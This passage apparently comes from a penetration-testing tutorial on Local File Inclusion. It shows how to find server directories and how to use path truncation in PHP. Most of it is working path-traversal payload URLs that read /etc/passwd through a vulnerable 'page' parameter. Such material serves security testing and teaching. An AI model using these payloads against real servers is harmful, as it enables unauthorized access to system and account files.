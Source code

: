### Exploring File System Directories on a Server

The file system of a server can be explored recursively to identify directories, not just files, by employing certain techniques. This process involves determining the directory depth and probing for the existence of specific folders. Below is a detailed method to achieve this:

1. **Determine Directory Depth:** Ascertain the depth of your current directory by successfully fetching the `/etc/passwd` file (applicable if the server is Linux-based). An example URL might be structured as follows, indicating a depth of three:

```bash
http://example.com/index.php?page=../../../etc/passwd # depth of 3
```

2. **Probe for Folders:** Append the name of the suspected folder (e.g., `private`) to the URL, then navigate back to `/etc/passwd`. The additional directory level requires incrementing the depth by one:

```bash
http://example.com/index.php?page=private/../../../../etc/passwd # depth of 3+1=4
```

3. **Interpret the Outcomes:** The server's response indicates whether the folder exists:
   * **Error / No Output:** The folder `private` likely does not exist at the specified location.
   * **Contents of `/etc/passwd`:** The presence of the `private` folder is confirmed.
4. **Recursive Exploration:** Discovered folders can be further probed for subdirectories or files using the same technique or traditional Local File Inclusion (LFI) methods.

For exploring directories at different locations in the file system, adjust the payload accordingly. For instance, to check if `/var/www/` contains a `private` directory (assuming the current directory is at a depth of 3), use:

```bash
http://example.com/index.php?page=../../../var/www/private/../../../etc/passwd
```

### **Path Truncation Technique**

Path truncation is a method employed to manipulate file paths in web applications. It's often used to access restricted files by bypassing certain security measures that append additional characters to the end of file paths. The goal is to craft a file path that, once altered by the security measure, still points to the desired file.

In PHP, various representations of a file path can be considered equivalent due to the nature of the file system. For instance:

* `/etc/passwd`, `/etc//passwd`, `/etc/./passwd`, and `/etc/passwd/` are all treated as the same path.
* When the last 6 characters are `passwd`, appending a `/` (making it `passwd/`) doesn't change the targeted file.
* Similarly, if `.php` is appended to a file path (like `shellcode.php`), adding a `/.` at the end will not alter the file being accessed.

The provided examples demonstrate how to utilize path truncation to access `/etc/passwd`, a common target due to its sensitive content (user account information):

```
http://example.com/index.php?page=a/../../../../../../../../../etc/passwd......[ADD MORE]....
http://example.com/index.php?page=a/../../../../../../../../../etc/passwd/././.[ADD MORE]/././.
```
